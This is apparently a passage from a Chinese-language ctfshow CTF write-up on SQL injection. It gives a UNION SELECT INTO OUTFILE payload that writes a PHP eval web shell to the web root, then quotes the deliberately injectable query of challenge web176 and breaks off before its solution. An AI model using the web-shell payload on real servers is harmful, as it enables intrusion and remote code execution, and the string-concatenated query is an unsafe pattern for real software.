 也可以写shell

```
1' union select 1,"<?php eval($_POST[1]); ?>" into outfile '/var/www/html/2.php' --+
```

<img src="图片\Snipaste_2023-01-24_12-30-22.png" alt="Snipaste_2023-01-24_12-30-22" style="zoom:67%;" />

## web176

### 题目

过滤传入参数，查询语句

```
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";
      
```

返回逻辑

```
//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```

### 方法一

